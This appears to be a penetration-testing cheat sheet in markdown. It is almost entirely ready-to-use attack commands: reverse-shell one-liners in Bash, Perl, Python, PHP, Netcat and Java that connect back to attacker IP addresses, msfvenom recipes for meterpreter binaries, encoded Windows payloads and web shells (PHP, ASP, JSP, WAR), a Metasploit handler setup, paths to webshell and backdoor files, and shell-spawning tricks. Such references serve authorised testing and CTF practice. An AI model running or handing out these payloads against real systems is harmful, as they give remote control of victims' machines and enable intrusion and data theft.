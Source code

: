 ## Reverse Shell

- Bash
  - `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`
  - `bash -c '/bin/bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'`

- Perl
  - `perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

- Python
  - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- PHP
  - `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

- Netcat
  - `nc -e /bin/sh 10.0.0.1 1234 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

- Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

- Msfvenom

	- Binaries

		- Linux
			- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f elf > shell.elf`

		- Windows
			- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f exe > reverse.exe`
			- `msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT –f exe > /root/Desktop/reverse.exe`
			- `msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT -e x86/shikata_ga_nai -f vba-exe`
			- `msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT -e x86/shikata_ga_nai -f exe -o reverse.exe`
			- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f exe -o reverse.exe`

	- Web Payloads

		- PHP
			- `msfvenom -p php/meterpreter_reverse_tcp LHOST=$IP LPORT=$PORT -f raw > shell.php`
			- `cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

		- ASP
			- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f asp > shell.asp`

		- JSP
			- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=$IP LPORT=$PORT -f raw > shell.jsp`

		- WAR
			- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=$IP LPORT=$PORT -f war > shell.war`

	- Scripting Payloads

		- Python
			- `msfvenom -p cmd/unix/reverse_python LHOST=$IP LPORT=$PORT -f raw > shell.py`

		- Bash
			- `msfvenom -p cmd/unix/reverse_bash LHOST=$IP LPORT=$PORT -f raw > shell.sh`

		- Perl
			- `msfvenom -p cmd/unix/reverse_perl LHOST=$IP LPORT=$PORT -f raw > shell.pl`

	- Shellcode

		-  Linux Based Shellcode 
			- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f $LANGUAGE`

		-  Windows Based Shellcode 
			- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f $LANGUAGE`

- Handlers
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```
	- `msfconsole -L -r`

- [URL](https://www.hackingarticles.in/2-ways-use-msfvenom-payload-netcat/)
- [URL](https://netsec.ws/?p=331)
- [URL](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)

### Webshells

- Asp
	- `/usr/share/webshells/asp/cmd-asp-5.1.asp`
	- `/usr/share/webshells/asp/cmdasp.asp`

- Aspx
	- `/usr/share/webshells/aspx/cmdasp.aspx`

- Cfm
	- `/usr/share/webshells/cmf/cfexec.cfm`

- Jsp
	- `/usr/share/webshells/jsp/cmfjsp.jsp`
	- `/usr/share/webshells/jsp/jsp-reverse.jsp`

- Perl
	- `/usr/share/webshells/perl/perlcmd.cgi`
	- `/usr/share/webshells/perl/perl-reverse-shell.pl`

- Php
	- `/usr/share/webshells/php/findsocket/*`
	- `/usr/share/webshells/php/php-backdoor.php`
	- `/usr/share/webshells/php/php-reverse-shell.php`
	- `/usr/share/webshells/php/qsd-php-backdoor.php`
	- `/usr/share/webshells/php/simple-backdoor.php`

- Useful
  - `rlwrap nc localhost 80`
  - [rlwrap](https://github.com/hanslub42/rlwrap)

## Spawing Shell

- Python
  - `python -c "import pty;pty.spawn('/bin/bash')"`

- Echo
  - `echo 'os.system('/bin/bash')'`

- Sh
  - `/bin/sh -i`

- Bash
  - `/bin/bash -i`

- Perl
  - `perl -e 'exec "/bin/sh";'`

- Ruby
  - `ruby: exec "/bin/sh"`

- Lua
  - `lua: os.execute('/bin/sh')`

- Vi
  - `!bash`
  - `set shell=/bin/bash:shell`

- Nmap
  - `!sh`

- Extras:
  - `stty raw -echo`
  - `export TERM=xterm`

